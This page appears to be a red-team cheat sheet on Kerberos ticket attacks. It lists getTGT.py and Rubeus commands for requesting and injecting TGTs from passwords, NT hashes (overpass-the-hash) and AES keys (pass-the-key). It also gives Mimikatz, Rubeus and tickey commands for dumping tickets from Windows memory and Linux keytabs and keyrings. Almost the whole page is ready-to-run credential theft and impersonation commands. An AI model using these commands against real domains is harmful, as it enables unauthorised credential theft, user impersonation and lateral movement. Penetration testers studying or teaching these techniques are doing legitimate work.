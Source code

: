 # 1. Get Ticket

{% hint style="info" %}
In cases where it says "Inject the ticket", we can directly execute commands.
{% endhint %}

### With password

Request the TGT with password:

{% tabs %}
{% tab title="Unix*" %}
```bash
python getTGT.py <DOMAIN>/<USERNAME>:[PASSWORD] # If not provided, password is asked
```
{% endtab %}

{% tab title="Windows" %}
```shell
.\Rubeus.exe asktgt /domain:<DOMAIN> /user:<USERNAME> /password:<PASSWORD> # Output: ticket.kirbi
.\Rubeus.exe asktgt /domain:<DOMAIN> /user:<USERNAME> /password:<PASSWORD> /ptt # Inject the ticket.
```
{% endtab %}
{% endtabs %}

### With Overpass-The-Hash

Request the TGT with hash:

{% tabs %}
{% tab title="Unix*" %}
```bash
python getTGT.py <DOMAIN>/<USERNAME> -hashes [LM_HASH]:<NT_HASH>
```
{% endtab %}

{% tab title="Windows" %}
```shell
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> # Output: ticket.kirbi
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt # Inject ticket.
```
{% endtab %}
{% endtabs %}

### With Pass-The-Key (PTK)

Request the TGT with aesKey:

{% hint style="success" %}
AES256 key is more secure encryption, probably more stealth due is the used by default by Microsoft.
{% endhint %}

{% tabs %}
{% tab title="Unix*" %}
```bash
python getTGT.py <DOMAIN>/<USERNAME> -aesKey <AES_KEY>
```
{% endtab %}

{% tab title="Windows" %}
```shell
.\Rubeus.exe asktgt /domain:<DOMAIN> /user:<USERNAME> /aes256:<AES256 KEY> # Output: ticket.kirbi
.\Rubeus.exe asktgt /domain:<DOMAIN> /user:<USERNAME> /aes256:<AES256 KEY> /ptt # Inject the ticket.
```
{% endtab %}
{% endtabs %}

### Harvest tickets from Windows/Linux

{% tabs %}
{% tab title="Windows" %}
With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:

```
.\Rubeus.exe dump
```

After dumping with Rubeus the tickets in base64, to write the in a file:

```powershell
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```
{% endtab %}

{% tab title="Linux" %}
In order to be authenticate users, the Linux machines usually have a Kerberos client that is configured with the domain computer account. You can find the credentials in the keytab, usually found in `/etc/krb5.keytab`, or in the value specified by the environment variables `KRB5_KTNAME` or `KRB5_CLIENT_KTNAME`, or specified in the [Kerberos configuration file](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/conf\_files/krb5\_conf.html) in `/etc/krb5.conf`. You can display its contents, including the keys, with `klist` command, or [cerbero](https://github.com/Zer1t0/cerbero).

Check the type and location of the tickets:

```bash
grep default_ccache_name /etc/krb5.conf
```

If none are returned, default is `FILE:/tmp/krb5cc_%{uid}`.

In case they are file tickets, you can copy-paste (if you have permissions) to use them.

In case they are _KEYRING_ tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

{% hint style="info" %}
To dump current user tickets, if root, try to dump them all by injecting in other user processes to inject, copy tickey in a reachable folder by all users.
{% endhint %}

```
cp tickey /tmp/tickey
/tmp/tickey -i
```
{% endtab %}
{% endtabs %}
